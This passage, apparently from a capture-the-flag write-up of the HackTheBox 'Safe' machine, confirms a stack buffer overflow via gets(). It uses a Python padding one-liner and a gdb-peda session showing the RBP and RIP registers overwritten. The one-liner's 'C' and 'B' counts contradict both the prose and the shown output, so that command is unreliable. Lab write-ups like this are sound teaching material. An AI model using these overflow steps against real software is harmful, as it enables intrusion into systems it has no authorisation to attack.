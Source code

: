 From our interaction with the program, we know that from here, we can feed the program with user-input. So let's pay more attention here.

* <main+37>: Loads a buffer of 112 bytes into RAX. (0x70 = 112)

* To convert base16 to decimal on command line, use `echo $((0x70))`.

* <main+54>: gets() is called here. [gets() is unsafe](https://cwe.mitre.org/data/definitions/242.html) as it does not check array bounds.

#### Confirming Buffer Overflow

This main takeaway from the section above is that if we fill the buffer with 112 bytes of junk, we should be able to control the RBP and the RIP.

Let's try. The Python script below:

* Generates 112 x "A" as junk to fill up the buffer

* 8 x "B" to fill up the base pointer (RBP)

* 6 x "C" to fill up the (RIP) - If you use 8 x "C", it will not work as it exceeds the [canonical address range](https://read.seas.harvard.edu/cs161/2018/doc/memory-layout/).

`root@kali:~/htb/safe# python -c 'print("A" * 112 + "C" * 8 + "B" * 6)' > bufferoverflow.txt`

Now, let's fire up gdb.

```
root@kali:~/htb/safe# gdb myapp -q
Reading symbols from myapp...
(No debugging symbols found in myapp)
gdb-peda$ set follow-fork-mode parent
gdb-peda$ break * main+77
Breakpoint 1 at 0x4011ac
gdb-peda$ run < bufferoverflow.txt
```
* Set follow fork mode to parent because we are interested in the main program. (gdb-peda has the default follow fork mode set to child)

* Set a breakpoint where main returns.

* Run it by piping `bufferoverflow.txt` to the program.

* You need to key in `s` to step once to see the results below.

```
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ed7904 (<__GI___libc_write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7fa8580 --> 0x0
RSI: 0x4052a0 ("What do you want me to echo back? ", 'A' <repeats 112 times>, "BBBBBBBBCCCCCC\n")
RDI: 0x0
RBP: 0x4242424242424242 ('BBBBBBBB')
RSP: 0x7fffffffe080 --> 0x0
RIP: 0x434343434343 ('CCCCCC')
R8 : 0x7f
R9 : 0x0
R10: 0x4003e0 --> 0x6972700073747570 ('puts')
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe150 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x434343434343
```
The RBP is filled up with 'BBBBBBBB'. The RIP is filled up with 'CCCCCC'.
